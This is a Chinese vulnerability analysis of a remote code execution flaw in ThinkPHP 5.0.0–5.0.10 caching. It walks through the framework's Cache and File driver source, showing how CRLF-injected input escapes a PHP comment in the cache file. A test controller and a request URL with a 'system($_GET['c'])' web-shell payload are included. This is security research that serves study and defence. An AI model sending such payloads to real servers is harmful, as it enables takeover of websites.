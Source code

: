 # TP5远程代码执行

Version: 5.0.0<=ThinkPHP5<=5.0.10

## 缓存文件写入

在Cache.php的set()中使用init()实例化一个对象并调用其set()方法

`````php
    public static function set($name, $value, $expire = null)
    {
        self::$writeTimes++;
        return self::init()->set($name, $value, $expire);
    }
`````

而init()如下,默认`$option=null`,所以`$connect=self::connect
(Config::get('cache'))`,该值默认为`File`

```php
    public static function init(array $options = [])
    {
        if (is_null(self::$handler)) {
            // 自动初始化缓存
            if (!empty($options)) {
                $connect = self::connect($options);
            } elseif ('complex' == Config::get('cache.type')) {
                $connect = self::connect(Config::get('cache.default'));
            } else {
                $connect = self::connect(Config::get('cache'));
            }
            self::$handler = $connect;
        }
        return self::$handler;
    }
```
而默认cahe的配置如下
```php
'cache'                  => [
        // 驱动方式
        'type'   => 'File',
        // 缓存保存目录
        'path'   => CACHE_PATH,
        // 缓存前缀
        'prefix' => '',
        // 缓存有效期 0表示永久缓存
        'expire' => 0,
    ],
```



connect()方法如下,根据默认配置$Option['type']=File,则$Class即为\think\cache\driver\File,最后即返回了一个该File类,则最后调用的是File类的set方法

```php
    public static function connect(array $options = [], $name = false)
    {
        $type = !empty($options['type']) ? $options['type'] : 'File';
        if (false === $name) {
            $name = md5(serialize($options));
        }

        if (true === $name || !isset(self::$instance[$name])) {
            $class = false !== strpos($type, '\\') ? $type : '\\think\\cache\\driver\\' . ucwords($type);

            // 记录初始化信息
            App::$debug && Log::record('[ CACHE ] INIT ' . $type, 'info');
            if (true === $name) {
                return new $class($options);
            } else {
                self::$instance[$name] = new $class($options);
            }
        }
        return self::$instance[$name];
    }
```

在File类中set()如下,在该类中的set方法中将$value的值进行序列化后与`<?php\n//" . sprintf('%012d', $expire)` 直接进行拼接写入文件,此处可以使用%0d%0a换行来逃逸序列化格式,从而写入任意内容

```php
    public function set($name, $value, $expire = null)
    {
        if (is_null($expire)) {
            $expire = $this->options['expire'];
        }
        $filename = $this->getCacheKey($name);
        if ($this->tag && !is_file($filename)) {
            $first = true;
        }
        $data = serialize($value);
        if ($this->options['data_compress'] && function_exists('gzcompress')) {
            //数据压缩
            $data = gzcompress($data, 3);
        }
        $data   = "<?php\n//" . sprintf('%012d', $expire) . $data . "\n?>";
        $result = file_put_contents($filename, $data);
        if ($result) {
            isset($first) && $this->setTagItem($filename);
            clearstatcache();
            return true;
        } else {
            return false;
        }
    }
```

而文件名是由getCachekey()获取,getCache()如下,根据传入的$name的md5值前两位作为目录名,后30位为文件名

```php
    protected function getCacheKey($name)
    {
        $name = md5($name);
        if ($this->options['cache_subdir']) {
            // 使用子目录
            $name = substr($name, 0, 2) . DS . substr($name, 2);
        }
        if ($this->options['prefix']) {
            $name = $this->options['prefix'] . DS . $name;
        }
        $filename = $this->options['path'] . $name . '.php';
        $dir      = dirname($filename);
        if (!is_dir($dir)) {
            mkdir($dir, 0755, true);
        }
        return $filename;
    }
```

创建测试代码如下,即$name为缓存的键名,username为序列化的值

```php
<?php
namespace app\index\controller;
use think\Cache;
class Index
{
    public function index()
    {
        Cache::set("name",input("get.username"));
        return 'Cache success';
    }
}
```

访问`http://localhost/index.php/index/index?username=aa222%0D%0Asystem($_GET[%27c%27]);//`即可写入缓存文件

![1](1.jpg)



1. 需要知道缓存的键值才能得到文件名
2. 缓存文件在runtime目录下,而一般网站目录在public目录下,无法访问到